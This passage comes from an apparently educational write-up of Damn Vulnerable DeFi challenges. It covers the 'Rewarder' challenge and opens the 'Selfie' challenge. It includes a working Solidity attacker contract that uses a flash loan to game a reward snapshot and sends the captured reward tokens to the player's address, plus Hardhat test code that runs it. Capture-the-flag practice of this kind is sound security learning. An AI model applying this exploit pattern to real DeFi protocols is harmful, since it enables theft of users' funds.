 ```deposit()``` calls ```distributeRewards()```, this will call ```_recordSnapshot()``` if the block timestamp is greater than that last snapshot timestamp + five days.  We just need to take out the flash loan then deposit() the tokens at the right time, and then withdraw the tokens.  We will need to make an attacker contract to do this because only contracts can take out flash loans from this pool.  
    }

    function attack() external {
        // get max amount available
        uint maxAvail = liquidityToken.balanceOf(address(pool));
        console.log("max available for a flash loan is: ", maxAvail);

        // take out loan
        pool.flashLoan(maxAvail);

        // send scammed tokens to the boss
        uint numScammed = rewardToken.balanceOf(address(this));
        console.log("num scammed: ", numScammed);
        rewardToken.transfer(bossAddress, numScammed);
    }

    function receiveFlashLoan(uint256 loanVal) external {
        console.log("received a flash loan", loanVal);

        // deposit() in RewarderPool
        liquidityToken.approve(address(rewardPool), loanVal);
        rewardPool.deposit(loanVal);
        // withdraw
        rewardPool.withdraw(loanVal);

        // pay back loan
        liquidityToken.transfer(address(pool), loanVal);
    }
}
```

The Javascript code to call this in a Hardhat test is given here: 

```Javascript
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // wait 5 days

        // take out flash loan and deposit the tokens into rewarderPool
        const RewarderAttackerFactory = await ethers.getContractFactory('RewarderAttacker', deployer);
        let attacker = await RewarderAttackerFactory.connect(player).deploy(flashLoanPool.address, rewarderPool.address);
        await attacker.attack();
```


### Damn Vulnerable DeFi #6 - Selfie

A new lending pool has been created that offers flash loans of DVT tokens.  This pool has a governance token as well.  The pool has 1.5million DVT tokens, we start with 0 and the objective is to take them all.  Also of note is the pool has a total supply of 2m tokens.  

There are three contracts provided with this challenge.  
